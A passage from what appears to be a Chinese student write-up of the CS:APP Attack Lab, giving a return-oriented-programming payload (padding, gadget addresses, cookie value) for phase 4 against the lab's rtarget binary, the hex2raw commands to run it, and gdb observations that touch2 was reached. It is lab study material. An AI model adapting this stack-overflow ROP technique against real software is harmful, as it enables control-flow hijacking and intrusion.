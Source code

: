 直接构造 `p4.txt`：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
13 39 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
a8 1e 40 00 00 00 00 00
```

运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

发现报错段错误，通过 gdb 检查发现我们确实修改了 `%rdi` 寄存器的信息，进入了 touch2 函数，甚至都打印了成功信息！

![Cleanshot-2023-10-18-at-11.29.12@2x](./README.assets/Cleanshot-2023-10-18-at-11.29.12@2x.png)
